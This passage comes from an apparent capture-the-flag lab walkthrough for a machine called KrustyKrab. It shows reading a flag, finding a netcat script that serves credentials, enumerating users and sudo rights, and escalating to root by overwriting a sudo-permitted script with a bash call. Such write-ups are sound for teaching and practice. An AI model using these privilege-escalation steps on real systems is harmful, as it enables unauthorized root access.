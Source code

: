 ```bash
cat user.txt
THM{442a0d0713002cb5e3afe6d54351d234}
```

There is another very interesting file here... simple_server.sh

Let's take a look at what is inside:

```bash
cat simple_server.sh
#!/bin/sh
while true; do printf "$(cat creds.txt)" | netcat -l 6565; done
```
So we can see that this is the serivce that was running on port 6565.

Let's do some more enumeration.

```bash
ls /home
bob  patrick  ubuntu
bob@KrustyKrab:~$ ls -la /home/patrick/
total 36
drwxr-xr-x 5 patrick patrick 4096 Sep  6 21:17 .
drwxr-xr-x 5 root    root    4096 Sep  6 21:23 ..
-rw------- 1 patrick patrick  826 Sep  6 21:24 .bash_history
-rw-r--r-- 1 patrick patrick  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 patrick patrick 3771 Aug 31  2015 .bashrc
drwx------ 2 patrick patrick 4096 Sep  6 21:17 .cache
drwxrwxr-x 2 patrick patrick 4096 Sep  6 17:34 .nano
-rw-r--r-- 1 patrick patrick  655 Jul 12  2019 .profile
drwxr-xr-x 2 patrick patrick 4096 Sep  6 03:51 .ssh
bob@KrustyKrab:~$ ls -la /home/patrick/.ssh
total 8
drwxr-xr-x 2 patrick patrick 4096 Sep  6 03:51 .
drwxr-xr-x 5 patrick patrick 4096 Sep  6 21:17 ..
bob@KrustyKrab:~$ ls /root
ls: cannot open directory '/root': Permission denied
bob@KrustyKrab:~$ sudo -l
[sudo] password for bob: 
Matching Defaults entries for bob on KrustyKrab:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bob may run the following commands on KrustyKrab:
    (root) /home/bob/simple_server.sh

```

So... we can run that simple_server.sh script as root! BIG MISTAKE on Bob's part. Let's overwrite that file and simply call for a bash shell with root privilages!

```bash
bob@KrustyKrab:~$ echo "bash" > simple_server.sh
bob@KrustyKrab:~$ sudo ./simple_server.sh
root@KrustyKrab:~# whoami
root
root@KrustyKrab:~# id
uid=0(root) gid=0(root) groups=0(root)
root@KrustyKrab:~# 
```
